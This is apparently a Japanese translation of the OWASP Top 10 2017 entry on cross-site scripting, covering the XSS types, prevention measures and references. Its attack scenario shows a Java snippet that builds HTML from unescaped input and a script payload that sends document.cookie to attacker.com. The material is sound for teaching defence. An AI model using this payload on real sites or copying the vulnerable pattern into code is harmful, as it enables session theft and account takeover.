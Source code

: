 # A7:2017-クロスサイトスクリプティング (XSS)

| 脅威エージェント/攻撃手法 | セキュリティ上の弱点           | 影響               |
| -- | -- | -- |
| アクセスレベル : 悪用のしやすさ 3 | 蔓延度 3 : 検出のしやすさ 3 | 技術面への影響 2 : ビジネス面への影響 |
| 3種類のXSSはいずれも、自動化ツールを用いて検出および悪用することが可能です。また、誰でも入手できる、XSSを悪用するためのフレームワークも複数存在します。 | XSSは、OWASP Top 10の中では2番目に多く見られる問題であり、アプリケーション全体のおよそ三分の二で検出されます。自動化ツールで、いくつかのXSS問題を検出できます。PHP、J2EE/JSP、またはASP.NETのような成熟した技術においては、特にそれが顕著です。 | XSSの影響は、リフレクトおよびDOMベースの場合は中程度、ストアドの場合は重大となります。具体的な被害例として、被害者のブラウザ上でリモートコードが実行されることによる、認証情報やセッションの奪取、被害者へのマルウェア感染が挙げられます。 |

## 脆弱性発見のポイント

XSSには3種類のタイプが存在し、大抵は被害者のブラウザがターゲットとされます:

* **リフレクトXSS**: アプリケーションまたはAPIが、ユーザ入力データを適切に検証およびエスケープせずに、HTML出力の一部として含めている。攻撃が成功すると、攻撃者は被害者のブラウザで任意のHTMLやJavaScriptを実行できる。一般的には、ユーザは、いわゆる水飲み場サイトや広告ページなど攻撃に乗っ取られたページに辿り着くための悪質なリンクを踏むことになる。
* **ストアドXSS**: アプリケーションまたはAPIがそのデータを無害化せずに格納する。それら入力データは、後に別のユーザまたは管理者によって閲覧されることになる。ストアドXSSは、大抵の場合、高または重大リスクとみなされる。
* **DOMベースXSS**: JavaScriptフレームワーク、シングルページアプリケーション、およびAPIが、攻撃者の制御可能なデータを動的に取り込んでページに出力することにより、DOMベースXSS脆弱性となる。理想を言えば、アプリケーションは安全でないJavaScript APIに対して攻撃者が制御可能なデータを送信してはいけない。

典型的なXSS攻撃には、セッションの奪取、アカウントの乗っ取り、多要素認証(MFA)の回避、DOMノードの置換または改竄(トロイの木馬を介した偽のログイン画面挿入等)、悪質なソフトウェアのダウンロードやキーロギング等のユーザのブラウザに対する攻撃などが含まれます。

## 防止方法

XSSを防止するには、信頼できないデータを動的なブラウザコンテンツから区別する必要があります。以下を実施します:

* 最新のRuby on RailsやReact JSなど、XSSに悪用されうるデータを自動的にエスケープするよう設計されたフレームワークを使用する。各フレームワークにおけるXSS対策の限界を確認し、対策の範囲外となるデータ使用については、適切な処理を行う。
* ボディ、属性、JavaScript、CSSやURLなどHTML出力のコンテキストに基づいて、信頼出来ないHTTPリクエストデータをエスケープすることで、リフレクトおよびストアドXSS脆弱性を解消できる。要求されるデータの詳細なエスケープ手法は [OWASP  Cheat Sheet 'XSS Prevention'](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet) を参照のこと。
* クライアント側でのブラウザドキュメント改変時に、コンテキスト依存のエンコーディングを適用することで、DOMベースXSSへの対策となる。これが行えない場合には、[OWASP Cheat Sheet 'DOM based XSS Prevention'](https://www.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet)で説明されている、同様のコンテキスト依存のエスケープ手法をブラウザAPIに適用することもできる。
* XSSに対する多層防御措置の一環として [Content Security Policy (CSP)](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) を有効に設定する。これは、ローカルファイルインクルードを介して悪意のあるコードを設置可能にする他の脆弱性（例：パストラバーサルを悪用したファイルの上書き、許可されたコンテンツ配信ネットワークから提供された脆弱なライブラリ等）が存在しない場合に効果的である。

## 攻撃シナリオの例

**シナリオ #1**: あるアプリケーションは、検証やエスケープをせず、信頼出来ないデータを使用して、以下のHTMLスニペットを生成しています。

`(String) page += "<input name='creditcard' type='TEXT' value='" + request.getParameter("CC") + "'>";`
攻撃者はブラウザでパラメータ‘CC’を以下に改変します。

`'><script>document.location='http://www.attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>'`

これにより、被害者のセッションIDが攻撃者のウェブサイトに送信され、被害者のセッションが乗っ取られます。

**注意**: 攻撃者は、アプリケーションが使用している自動化されたCSRF対策を、XSSで破ることができます。

## 参考資料

### OWASP

* [OWASP Proactive Controls: Encode Data](https://www.owasp.org/index.php/OWASP_Proactive_Controls#tab=OWASP_Proactive_Controls_2016)
* [OWASP Proactive Controls: Validate Data](https://www.owasp.org/index.php/OWASP_Proactive_Controls#tab=OWASP_Proactive_Controls_2016)
* [OWASP Application Security Verification Standard: V5](https://www.owasp.org/index.php/Category:OWASP_Application_Security_Verification_Standard_Project)
* [OWASP Testing Guide: Testing for Reflected XSS](https://www.owasp.org/index.php/Testing_for_Reflected_Cross_site_scripting_(OTG-INPVAL-001))
* [OWASP Testing Guide: Testing for Stored XSS](https://www.owasp.org/index.php/Testing_for_Stored_Cross_site_scripting_(OTG-INPVAL-002))
* [OWASP Testing Guide: Testing for DOM XSS](https://www.owasp.org/index.php/Testing_for_DOM-based_Cross_site_scripting_(OTG-CLIENT-001))
* [OWASP Cheat Sheet: XSS Prevention](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet)
* [OWASP Cheat Sheet: DOM based XSS Prevention](https://www.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet)
* [OWASP Cheat Sheet: XSS Filter Evasion](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)
* [OWASP Java Encoder Project](https://www.owasp.org/index.php/OWASP_Java_Encoder_Project)

### その他

* [CWE-79: Improper neutralization of user supplied input](https://cwe.mitre.org/data/definitions/79.html)
* [PortSwigger: Client-side template injection](https://portswigger.net/kb/issues/00200308_clientsidetemplateinjection)
